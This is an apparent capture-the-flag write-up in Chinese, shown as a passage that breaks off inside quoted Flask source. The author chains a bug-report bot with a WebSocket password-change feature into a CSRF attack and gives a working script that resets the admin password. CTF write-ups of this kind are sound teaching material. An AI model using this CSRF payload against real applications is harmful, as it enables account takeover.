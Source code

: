 目录扫描到下面结果

![image-20220802140954044](https://tuchuang.huamang.xyz/img/image-20220802140954044.png)

扫到一个buy，测试一下需要post发包，然后需要admin

![image-20220802141024717](https://tuchuang.huamang.xyz/img/image-20220802141024717.png)

看起来是需要拿到admin的权限，然后去这里发包拿flag

进去里面发现有个修改密码的功能点，还有个报告bug的功能点，这组合起来就是一个csrf的利用了

这里修改密码是要ws发包过去的，我直接对着题目的js做了一点修改然后放到服务器

一开始一直没成功，后来发现可能得用内网的地址，刚好题目给了docker部署的命令，所以知道端口是8888



![image-20220802144443674](https://tuchuang.huamang.xyz/img/image-20220802144443674.png)

构造如下的csrf脚本

```js
<script>
    var ws = null;
    var host = "127.0.0.1:8888"
    var url = "ws://" + host + "/bot";

    ws = new WebSocket(url);
    ws.onopen = function (event) {
        console.log('connection open!')
        var msg = "changepw 123";
        ws.send(msg);
        console.log('changepw')
    }
    ws.onmessage = function (ev) {
        botsay(ev.data);
    };
    ws.onerror = function () {
        console.log("connection error");
    };
    ws.onclose = function () {
        console.log("connection close!");
    };
</script>
```

修改密码进入后，发现有个购买界面，这里的钱只够购买hint，下载到是源码

![image-20220802144545699](https://tuchuang.huamang.xyz/img/image-20220802144545699.png)[app.py](http://app.py)

```python
@app.route("/buy", methods=['POST'])
def buy():
    if not session:
        return redirect('/login')
    elif session['user'] != 'admin':
        return "you are not admin"
    else :
        result = {}
        data = request.get_json()
        product = data["product"]
        for i in product:
            if not isinstance(i["id"],int) or not isinstance(i["num"],int):
                return "not int"
            if i["id"] not in (1,2):
                return "id error"
            if i["num"] not in (0,1,2,3,4,5):
```